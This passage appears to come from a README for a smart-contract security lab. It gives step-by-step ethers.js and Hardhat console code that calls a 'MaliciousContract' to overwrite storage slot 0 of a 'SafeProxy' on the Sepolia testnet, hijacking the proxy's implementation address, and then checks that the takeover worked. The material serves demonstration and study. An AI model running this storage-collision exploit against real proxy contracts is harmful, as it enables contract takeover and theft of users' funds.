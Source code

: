 
## Manually Executing the Exploit

If you prefer to interact directly with the contracts, here's how to execute the exploit manually.

### Prerequisites

You'll need the contract addresses from deployment. Let's assume:
- `MALICIOUS_CONTRACT` = Address of deployed MaliciousContract
- `SAFE_PROXY` = Address of deployed SafeProxy

### Step 1: Get Current Implementation

```javascript
// In a browser console or via Hardhat console
const proxy = await ethers.getContractAt("SafeProxy", SAFE_PROXY);
const implementation = await proxy.getImplementation();
console.log("Current implementation:", implementation);
```

### Step 2: Execute the Exploit

```javascript
const malicious = await ethers.getContractAt("MaliciousContract", MALICIOUS_CONTRACT);

// Call transfer with attacker's address and any amount
// This will overwrite slot 0 in the proxy
const attackerAddress = "0xYourAddress";
const amount = ethers.parseEther("0");

await malicious.transfer(attackerAddress, amount);
```

### Step 3: Verify Implementation Changed

```javascript
const newImplementation = await proxy.getImplementation();
console.log("New implementation:", newImplementation);
console.log("Matches attacker address:", newImplementation.toLowerCase() === attackerAddress.toLowerCase());
```

### Using Hardhat Console

```bash
npx hardhat console --network sepolia
```

Then in the console:

```javascript
const [signer] = await ethers.getSigners();
const proxy = await ethers.getContractAt("SafeProxy", "SAFE_PROXY_ADDRESS");
const malicious = await ethers.getContractAt("MaliciousContract", "MALICIOUS_ADDRESS");

// Before
console.log("Before:", await proxy.getImplementation());

// Execute exploit
await malicious.transfer(signer.address, 0);

// After
console.log("After:", await proxy.getImplementation());
```

---